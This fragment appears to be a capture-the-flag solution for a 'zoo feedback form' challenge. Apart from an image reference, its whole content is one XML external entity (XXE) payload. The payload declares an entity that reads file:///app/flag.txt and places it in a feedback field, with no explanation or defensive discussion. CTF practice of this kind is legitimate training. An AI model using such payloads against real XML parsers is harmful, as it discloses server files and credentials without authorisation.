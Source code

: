 zoo feedback form
============

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY flag SYSTEM "file:///app/flag.txt"> ]>
<root>
    <feedback>&flag;</feedback>
</root>
```